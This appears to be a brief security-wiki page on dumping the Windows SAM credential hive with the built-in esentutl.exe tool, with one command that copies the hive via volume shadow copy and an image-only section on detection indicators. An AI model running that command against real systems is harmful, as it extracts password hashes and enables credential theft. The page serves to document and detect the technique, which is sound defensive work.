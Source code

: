 # Dumping SAM via esentutl.exe

## Execution

It's possible to use esentutl.exe that comes with Windows and dump SAM/Security hives like so:

```text
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

![](../../.gitbook/assets/image%20%28674%29.png)

## Observation

The below are some potential IOCs for detecting this technique:

![](../../.gitbook/assets/image%20%28659%29.png)

## References

{% embed url="https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running" %}

